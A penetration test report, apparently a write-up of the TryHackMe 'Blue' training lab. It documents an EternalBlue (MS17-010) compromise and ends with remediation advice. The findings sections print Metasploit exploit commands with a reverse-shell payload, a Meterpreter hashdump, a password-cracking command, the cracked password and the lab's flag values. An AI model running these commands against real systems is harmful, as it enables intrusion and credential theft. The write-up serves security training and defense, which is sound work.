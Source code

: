 **Penetration Test Report -- TryHackMe: Blue**

**Author:** Justin Alexander\
**Date:** August 24, 2025\
**Target:** \[Redacted\]

**1. Executive Summary**

A penetration test was conducted against the target machine provided in
the TryHackMe "Blue" room. The assessment simulated a real-world
attacker leveraging known vulnerabilities to gain unauthorized access.
The system was found to be vulnerable to the **MS17-010 (EternalBlue)**
exploit, allowing remote code execution with **SYSTEM-level
privileges**. Post-exploitation activities included credential
extraction and retrieval of sensitive flags.

**Overall Risk Rating:** **Critical**

**2. Scope**

- **Target IP:** \[REDACTED\]

- **Objective:** Identify vulnerabilities, gain access, escalate
  privileges, extract credentials, and capture flags.

- **Constraints:** Black-box approach, external attacker perspective.

**3. Methodology**

The test followed a structured penetration testing methodology:

1.  **Reconnaissance:** Network and service discovery.

2.  **Enumeration:** Identify potential attack vectors.

3.  **Exploitation:** Gain initial access.

4.  **Privilege Escalation:** Obtain administrative control.

5.  **Post-Exploitation:** Credential harvesting, flag capture, and
    system analysis.

**4. Findings**

**4.1 Reconnaissance**

An **Nmap scan** was performed:

nmap -sV -p- \--script vuln -Pn \[REDACTED\]

**Results:**

- **Port 135/tcp (MS RPC) -- open**

- **Port 139/tcp (NetBIOS) -- open**

- **Port 445/tcp (SMB) -- open**

Nmap vulnerability scripts indicated the system was vulnerable to
**MS17-010**.

**Risk:** High (Remote Code Execution)

**4.2 Exploitation**

Using **Metasploit**, the EternalBlue exploit was executed:

msfconsole

search ms17-010

use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS \[REDACTED\]

set payload windows/x64/shell/reverse_tcp

exploit

**Result:** Gained a reverse shell on the target system as **NT
AUTHORITY\\SYSTEM**.

**4.3 Privilege Escalation**

- The shell was upgraded to a **Meterpreter session** for stability:

- use post/multi/manage/shell_to_meterpreter

- set SESSION \<id\>

- run

- Verified privileges:

- getuid

> Output: NT AUTHORITY\\SYSTEM

**Impact:** Full administrative control of the target system.

**4.4 Credential Dumping**

Using Meterpreter:

hashdump

Extracted NTLM hashes. Notably:

- User: **Jon**

- Hash successfully cracked using John the Ripper + RockYou:

- john \--format=nt \--wordlist=/usr/share/wordlists/rockyou.txt
  hash.txt

> **Password:** alqfna22

**Impact:** Adversary can reuse credentials across environments.

**4.5 Flag Retrieval**

Flags discovered in key system locations:

  -----------------------------------------------------------------------
  **Location**               **Flag Value**
  -------------------------- --------------------------------------------
  C:\\ root                  flag{access_the_machine}

  SAM Database (System32)    flag{sam_database_elevated_access}

  Administrator Documents    flag{admin_documents_can_be_valuable}
  -----------------------------------------------------------------------

**5. Risk Analysis**

  ---------------------------------------------------------------------------------
  **Vulnerability**   **Risk     **Impact**                        **Likelihood**
                      Level**                                      
  ------------------- ---------- --------------------------------- ----------------
  MS17-010            Critical   Full system compromise (RCE as    High
  (EternalBlue)                  SYSTEM)                           

  Weak Credentials    High       Reuse attacks / privilege abuse   Medium
  (Jon)                                                            
  ---------------------------------------------------------------------------------

**6. Recommendations**

1.  **Patch Management:**\
    Apply Microsoft's **MS17-010 security update** immediately to
    prevent exploitation.

2.  **Network Hardening:**

    - Restrict SMB access to trusted hosts only.

    - Disable SMBv1 across the environment.

3.  **Credential Security:**

    - Enforce strong password policies.

    - Implement multi-factor authentication.

4.  **Monitoring & Detection:**

    - Enable SIEM alerts for SMB exploitation attempts.

    - Monitor for abnormal processes and lateral movement.

**7. Conclusion**

The assessment revealed that the target system was critically vulnerable
to EternalBlue, allowing complete compromise. In a real enterprise
environment, such a weakness would pose significant risk to
confidentiality, integrity, and availability of business operations.
Implementing the recommended mitigations is essential to reduce
exposure.

